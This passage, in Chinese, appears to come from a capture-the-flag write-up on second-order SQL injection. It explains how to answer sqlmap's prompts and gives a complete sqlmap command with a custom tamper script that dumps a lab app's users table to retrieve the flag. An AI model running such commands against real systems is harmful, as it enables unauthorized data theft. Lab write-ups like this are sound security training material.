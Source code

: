 *****当 sqlmap 询问时，回答 no 以遵循 302 重定向，然后回答 yes 以继续进一步测试，如果它检测到一些 WAF/IP。当被问及是否要在以后的请求中合并 cookies 时，回答 no，说 no 以减少请求的数量。如下图所示，sqlmap 能够找到漏洞，这使我们能够自动利用它。*****

*****![](img/3c1b9d1fd5bcebef7ea5642aa9651b9d.png)*****

*****然后可以通过转储 *users* 表找到该标志:*****

```
*****sqlmap --tamper tamper/so-tamper.py --url [http://10.10.1.134:5000/challenge4/signup](http://10.10.1.134:5000/challenge4/signup) --data "username=admin&password=asd" --second-url [http://10.10.1.134:5000/challenge4/notes](http://10.10.1.134:5000/challenge4/notes) -p username --dbms=sqlite --technique=U --no-cast -T users --dump*****
```
